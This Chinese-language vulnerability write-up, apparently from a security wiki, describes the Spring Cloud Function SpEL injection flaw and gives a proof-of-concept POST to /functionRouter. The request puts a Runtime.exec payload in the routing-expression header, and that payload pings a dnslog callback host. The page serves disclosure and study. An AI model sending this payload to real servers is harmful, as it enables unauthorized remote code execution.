


Spring Cloud Function SPEL 远程命令执行漏洞¶
漏洞描述¶
Spring Cloud Function 是基于 Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于 Spring Cloud Function 中 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成了 Spel 表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。
漏洞影响¶
Spring Cloud Function
环境搭建¶
漏洞复现¶
搭建后访问

发送 POC
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
接收到请求
